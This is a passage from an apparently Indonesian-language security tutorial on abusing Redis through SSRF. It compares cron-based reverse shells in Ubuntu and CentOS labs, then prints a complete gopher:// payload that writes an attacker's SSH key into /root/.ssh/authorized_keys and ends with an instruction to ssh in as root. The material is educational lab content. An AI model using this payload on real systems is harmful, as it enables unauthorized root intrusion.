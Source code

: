 **Ubuntu Lab**

Redis akan me-write file dengan permission 0644, sedangkan crontab file pada ubuntu diharuskan mempunyai permission 0600 sehingga akan memberikan peringatan pada system log. 

![](../../.gitbook/assets/selection_004.png)

Selain itu terdapat _dummy data_ pada file RDB Redis yang menyebabkan cron mengabaikan crontab file tersebut karena ada _syntax_ yang tidak valid, jadi walaupun crontab file-nya memiliki permission 0600 tetap tidak akan ter-eksekusi.

![Cron Syntax Error](../../.gitbook/assets/selection_005.png)

{% hint style="info" %}
**Menulis crontab** file dengan Redis via SSRF tidak akan bekerja di Ubuntu, karena crontab file di Ubuntu harus memiliki _permission_ 0600 agar bisa dieksekusi dan bersih dari dummy data yang menyebabkan _syntax error_  
{% endhint %}

**Centos Lab**

Di Centos walaupun crontab file dengan permission 0644 dan terdapat dummy data, cron tetap akan dieksekusi sehingga bisa mendapatkan reverse shell.

![](../../.gitbook/assets/selection_006.png)

### Redis - SSH Public Key

Authorized\_keys digunakan untuk menyimpan list public key SSH sehingga user login dengan menggunakan pasangan private-public key SSH bukan dengan password. Authorized\_keys terletak di `$HOME/.ssh/authorized_keys`

Apabila `$HOME/.ssh/authorized_keys` dalam keadaan writeable, ini bisa dimanfaatkan untuk menyimpan _SSH keys_ _attacker_.

{% code-tabs %}
{% code-tabs-item title="payload\_redis.py" %}
```python
$ python payload_redis.py ssh
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D
%0A%241%0D%0A1%0D%0A%24403%0D%0A%0D%0A%0D%0Assh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABAQD
c4B6PTML3xiqId/qw8cJkPmwSbtdOsAS2IGUUk1ifRHZsdfgcFvj7fzMFo1ydGAOuZcGPeT838LQ3R8ruWe4B
788Q5ZKRO6CZSoEmqs4FWuCz7QvwWu9%2B2kMH/6gUvVQAQNYD2RACXgJcCAm77bg/WHZfgGJYNtOKDUf%2B0
V1ku%2B/h8ijsQJdkuk5Zr7w1xjOdigLs8ST7MivptfYGvbnh/XUk3Y2EfyoACmW0MpcnthdLL3s/8SOs5exe
kRNYYU9rn74itibDHlsYvukBtKhW/XOAPZ3T38qDf7PJyqPoOl%2BAQ8AaFwIBVfE7V1mPRCqZLkG97SRjMy1
V9dhTgG4h%20rhama%40Inspiron-7472%0D%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0A
set%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/root/.ssh%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A
%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2415%0D%0Aauthorized_keys%0D%0A%2A1%0D%0A
%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A

====================================================
After payload executed, try ssh root@server_hostname
====================================================

```